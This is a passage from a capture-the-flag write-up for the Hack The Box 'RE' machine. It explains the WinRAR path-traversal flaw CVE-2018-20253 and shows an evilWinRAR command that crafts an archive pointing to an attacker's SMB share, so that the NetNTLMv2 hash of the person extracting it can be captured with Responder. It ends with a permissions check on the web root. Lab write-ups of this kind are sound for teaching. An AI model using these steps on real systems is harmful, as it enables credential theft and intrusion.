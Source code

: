 There's a `CVE-2018-20253` that impacts all versions prior to and including 5.60. When the filename field is manipulated with specific patterns, the destination folder is ignored and the filename is treated as an absolute path. So basically an attacker can write anywhere on the target host when the file is unpacked, not just the directory where's it's extracted. This vulnerability is similar to the zipslip vulnerability.


The first thing I'll try it to get the hash of the user extracting the .rar files:

```
# python3 /opt/Evil-WinRAR-Gen/evilWinRAR.py -e evil.txt -g good.txt -p '\\10.10.16.9\snowscan\gimmehashes'

          _ _  __      ___      ___    _   ___
  _____ _(_) | \ \    / (_)_ _ | _ \  /_\ | _ \
 / -_) V / | |  \ \/\/ /| | ' \|   / / _ \|   /
 \___|\_/|_|_|   \_/\_/ |_|_||_|_|_\/_/ \_\_|_\

                                        by @manulqwerty

----------------------------------------------------------------------

[+] Evil archive generated successfully: evil.rar
[+] Evil path: \\10.10.16.9\snowscan\gimmehashes
```

The .rar file will try to extract to an SMB on my system and I'll use responder to get the NetNTLMv2 hash of the user.

![](/assets/images/htb-writeup-re/responder.png)

I tried cracking Cam's NTLMv2 hash but I wasn't able to crack it with rockyou.txt.

When I check the web directory, I see that Cam has write access:

```
C:\inetpub>icacls wwwroot
wwwroot RE\coby:(OI)(CI)(RX,W)
        RE\cam:(OI)(CI)(RX,W)
        BUILTIN\IIS_IUSRS:(OI)(CI)(RX)
        NT SERVICE\TrustedInstaller:(I)(F)
        NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
        BUILTIN\Users:(I)(RX)
        BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
        CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```
